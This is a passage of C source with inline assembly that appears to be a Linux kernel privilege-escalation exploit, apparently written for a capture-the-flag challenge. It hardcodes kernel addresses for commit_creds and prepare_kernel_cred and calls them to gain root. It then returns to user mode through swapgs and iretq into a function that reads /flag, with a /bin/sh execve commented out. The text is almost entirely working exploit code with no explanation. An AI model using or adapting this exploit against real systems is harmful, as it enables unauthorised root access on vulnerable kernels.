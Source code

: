 ```c
	"ret\n"

	"write:\n"
	"mov $1,%rax\n"
	"syscall\n"
	"ret\n"

	"exit:\n"
	"mov $60,%rax\n"
	"syscall\n"
	"ret\n"
);

void * commit_creds = 0xffffffff8105d235;
void * prepare_kernel_cred =  0xffffffff8105d157;

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
    /* puts("[*] root now."); */
}
unsigned long user_cs, user_ss, user_eflags,user_sp,shell2;
void save_stats(){
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
         :
         : "memory"
     );
}

void shell(){
    //execve("/bin/sh",&a,0);
    char buf[100];
    int a = open("/flag",0);
    read(a,buf,100);
    write(1,buf,100);
    exit(0);
}

int exp(){
    get_root();
    shell2 = (unsigned long)shell;
    asm(
        "push %0\n"
        "push %1\n"
        "push %2\n"
        "push %3\n"
        "push %4\n"
        "swapgs \n"
        "iretq \n"
        :
         :"m"(user_ss), "m"(user_sp), "m"(user_eflags),"m"(user_cs),"m"(shell2)
         : "memory"
     );
}

```
